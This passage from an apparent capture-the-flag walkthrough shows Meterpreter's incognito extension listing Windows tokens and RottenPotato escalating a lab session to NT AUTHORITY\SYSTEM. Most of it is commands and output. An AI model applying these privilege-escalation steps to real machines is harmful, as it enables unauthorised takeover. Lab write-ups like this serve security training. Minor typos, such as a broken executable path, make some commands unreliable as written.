 We load the module into our Meterpreter session by executing the use incognito command. Issuing the help command shows us the variety of options we have for incognito and brief descriptions of each option.

```console
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
==================

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes for every token         

```

We see here that there is a valid Administrator token that looks to be of interest. We now need to impersonate this token in order to assume its privileges. 

```zsh
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
TALLY\Sarah

Impersonation Tokens Available
========================================
NT SERVICE\SQLSERVERAGENT
```

As it was seen in the screenshot above, shows us that in the available tokens there is onl  NT SERVICE\SQLSERVERAGENT.
It is time to use the rottenpotato that we just downloaded, to execute it we must do the following:

```bash
meterpreter > execute -Hc -f C:\\Users\\Sarah\\Desktoprottenpotato.exe
Process 7996 created.
Channel 2 created.


meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
TALLY\Sarah

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM
NT SERVICE\SQLSERVERAGENT
```
